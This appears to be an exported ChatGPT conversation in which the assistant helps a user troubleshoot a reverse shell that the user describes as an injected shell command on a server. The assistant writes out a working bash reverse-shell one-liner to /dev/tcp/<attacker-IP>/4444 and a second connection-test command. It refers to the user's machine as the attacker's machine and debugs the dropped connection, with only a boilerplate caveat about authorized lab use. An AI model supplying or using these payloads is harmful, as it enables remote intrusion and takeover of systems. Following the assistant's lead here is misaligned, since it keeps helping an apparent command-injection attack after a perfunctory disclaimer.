 Again, I must emphasize that you should perform these actions in a safe and legal environment, such as a lab environment specifically designed for security training, and with proper authorization. Unauthorized use of reverse shells can lead to legal consequences and is considered malicious activity.



------------------

**You:**

this is what i get on the listener:
Connection received on DESKTOP-PTJMAF8.mshome.net 26244

then it seems like the connection closes but its still hanging on the server side. For context i am testing the injected shell command directly into the terminal

------------------

**ChatGPT:**

If you're testing the injected command directly in the terminal and the connection seems to close immediately, it could be because the shell is not properly tied to the input and output streams of the Netcat listener. When testing directly in the terminal, the shell might not be interactive, or it might be missing a proper terminal environment.

Let’s try a different approach to ensure that the file descriptors are set up correctly. Here’s a revised command:

```sh<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
bash -c 'bash -i >&amp; /dev/tcp/<attacker-IP>/4444 0>&amp;1'

```
When you run this command directly in the terminal on the server, ensure the following:


- Replace `
` with your listener’s IP address.
- Ensure that the port matches the one that you’re listening on with Netcat.
- The listener on your machine (the attacker's machine) is already running and waiting for the connection.
- Your firewall on the attacker's machine allows incoming connections on the port you're listening to.

If the connection still drops immediately after being established, it could be because:


- There is a network issue, such as a firewall that is closing the connection.
- The bash shell is not executing correctly or is exiting immediately.

To debug further, you can modify the command to include additional troubleshooting steps, such as trying to execute a simple command that doesn't require an interactive shell:

```sh<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
bash -c 'exec 5<>/dev/tcp/<attacker-IP>/4444; echo "Hello world" >&amp;5'

```
This should send a simple "Hello world" message to your Netcat listener without trying to establish an interactive shell. If this message is received by the Netcat listener, it indicates that the network connection is working as expected.
